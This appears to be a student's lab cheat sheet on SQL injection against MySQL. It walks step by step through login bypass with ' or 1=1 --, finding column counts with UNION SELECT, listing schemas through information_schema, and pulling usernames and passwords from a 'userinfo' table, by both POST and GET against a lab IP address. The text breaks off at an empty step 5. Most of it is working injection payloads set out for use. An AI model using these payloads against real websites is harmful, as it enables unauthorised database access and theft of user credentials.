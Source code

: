 # Commands
We are only using the `select` and `union` methods and `union` `select`

# Default Databases
```
information_schema
mysql
performance_schema
```
# Structure
```
Information Schema
--> Tables
  --> Columns
    --> TABLE_SCHEMA
      --> TABLE_NAME
      --> Column_NAME
```
# Enumerating
```
show tables ;
show columns from columns ;
```

```
select table_schema,table_name,column_name from information_schema.columns ;
```

```
select name,cost,color from session.car
```

```
@@VERSION
```
This will print the version number

# Bypass Login
```
' or 1=1 --
```
\+
```
SELECT * FROM users WHERE username = '' AND password = 'foo'
```
Changes to
```
SELECT * FROM users WHERE username = '' OR 1=1-- ' AND password = 'foo'
```

Querying all usernames and passwords
```
10.50.36.14/login.php?username=tom' OR 1='1 & passwd=tom' OR 1='1
```
# Hijacking Search SQL (POST METHOD)

## 1. Identify vulnerable field

Test with:
```
Name' or 1='1
```

## 2. Attempt to view more
```
Audi ' UNION SELECT 1,2,3,4 #
```
If this doesn't work try adding more columns, I.E: `1,2,3,4,5 #` (IT MIGHT BE AS HIGH AS 15)

NOTE: this is the number of columns you must use for every query

## 3. Edit Golden Statement
Golden Statement:
```
UNION SELECT table_schema,table_name,column_name from information_schema.columns #
```
Lets say there are only 5 columns with column 2 unavailable available:

Put unavailable and known columns in the right place (put `2` in the second position and put `5` in the fifth position)
```
UNION SELECT table_schema,2,table_name,column_name,5 from information_schema.columns #
```
Add to our previous UNION statement from step 2
```
Audi ' UNION SELECT table_schema,2,table_name,column_name,5 from information_schema.columns #
```
## 4. Find Tables of Interest
For example
| Manufacturer | Cost | Color | Year
| - | - | - | - |
| --- | --- | --- | --- |
|session |userinfo 	 |studentID 	|5|
|session |	userinfo |	 username| 	  5|
|session 	|userinfo 	|  passwd 	|    5|
|session 	|userinfo 	|  jump 	  |    5|
|session 	|userinfo 	|  prid 	 |     5|

or

```
Database  Table      Columns
------------------------------
session
          userinfo
                     studentID
                     username
                     passwd
                     jump
                     prid
```

Shows a database `session` with a table `userinfo` and columns with `studentID`, `username`, `passwd`, `jump`, `prid`

## 5. Create New Queries
Requirements:
- Must match the number of columns of the golden rule (in our example 5 columns)
- Any unavailable columns must be used (in our example column 2)

```
UNION SELECT type,2,cost,color,year from session.car #
```

```
UNION SELECT studentID,2,username,passwd,jump from session.userinfo #
```
# Hijacking Search SQL (GET METHOD)
## 1. Identify Vulnerable Field
When using the sql get method, you may notice the sql query in the url:
```
http://10.50.36.14/uniondemo.php?Selection=4&Submit=Submit
```
The `?Selection=4` is the query

Test this by replacing the standard query with

```
Selection=4 or 1=1
```
This would look like:
```
http://10.50.36.14/uniondemo.php?Selection=4 or 1=1&Submit=Submit
```
## 2. Attempt to view more
Get the column count with:
```
Selection=2 UNION SELECT 1,2,3
```
This would look like:
```
http://10.50.36.14/uniondemo.php?Selection=2 UNION SELECT 1,2,3&Submit=Submit
```

If more columns are needed (it errors out) add them as so: `1,2,3,4,5`
## 3. Edit Golden Statement
Golden Statement:
```
UNION SELECT table_schema,table_name,column_name from information_schema.columns
```
For our example we have only 3 columns available, because of this no modifications are neccessary

Add to our previous UNION statement from step 2
```
Selection=2 UNION SELECT table_schema,table_name,column_name from information_schema.columns
```

This would look like:
```
http://10.50.36.14/uniondemo.php?Selection=2 UNION SELECT table_schema,table_name,column_name from information_schema.columns&Submit=Submit
```
## 4. Find Tables of Interest
From our example:
| Manufacturer | Cost | Tire Size |
| - | - | - |
| --- | --- | --- |
|session 	|studentID 	|userinfo|
|session 	|username |	userinfo|
|session 	|passwd |	userinfo|
|session 	|jump |	userinfo|
|session 	|prid 	|userinfo|

or

```
Database   Table      Column
--------------------------------
session
           userinfo   
                      studentID
                      username
                      passwd
                      jump
                      prid
```

Shows a database `session` with a table `userinfo` and columns with `studentID`, `username`, `passwd`, `jump`, `prid`

## 5
